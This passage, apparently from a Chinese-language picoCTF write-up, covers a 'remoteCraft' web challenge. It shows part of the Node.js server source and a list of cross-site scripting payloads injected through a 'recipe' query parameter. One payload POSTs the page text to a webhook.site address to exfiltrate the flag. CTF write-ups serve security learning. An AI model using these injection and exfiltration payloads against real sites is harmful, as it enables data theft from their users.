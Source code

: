 > 2. 'recipe' 是陣列。長度小於 50 個元素，確認每個步驟是一個長度為 2 的陣列。步驟中的元素長度小於 50 個字元。

● index.mjs
```javascript=
import { createServer } from 'node:http';
import assert from 'node:assert';
import { spawn } from 'node:child_process';
import { mkdir, mkdtemp, writeFile, rm, readFile } from 'node:fs/promises';
import { tmpdir } from 'node:os';
import { join } from 'node:path';

const sleep = delay => new Promise(res => setTimeout(res, delay));

const html = await readFile('static/index.html', 'utf-8');
const js = await readFile('static/index.js', 'utf-8');
const flag = await readFile('flag.txt', 'utf-8');

let visiting = false;

...處理瀏覽器訪問...
```
```
http://rhea.picoctf.net:52830/remoteCraft?recipe={"recipe":[["Fire","Water"]]}

>> invalid recipe!
```

```
偽造recipe 讓他丟出/flag.txt
http://rhea.picoctf.net:52830/remoteCraft?recipe={"recipe":[["Fire","Water"]],"xss":"fetch('/flag.txt').then(response => response.text()).then(data => alert(data));"}

/remoteCraft?recipe={"recipe":[["Fire","Water"]],"xss":"alert(fetch('/flag.txt'))"}

/remoteCraft?recipe={"recipe":[["Fire","Water"]],"xss":["alert(fetch('http://127.0.0.1:8080/flag.txt').then(response => response.text()).then(data => alert(data)));"]}

/remoteCraft?recipe={"recipe":[["Fire","Water"]],"xss":"fetch('https://webhook.site/89a33e4d-1e15-48e6-bdb8-0df74726398b', { method: 'POST', body: JSON.stringify({ flag: document.querySelector('body').innerText }) })"}

/remoteCraft?recipe={"recipe":[["Fire","Water"]],"xss":"encodeURIComponent("fetch('/flag.txt').then(response => response.text()).then(data => alert(data));")"}



```



# Cryptography (5)
![image](https://hackmd.io/_uploads/HkD5vsCTp.png)
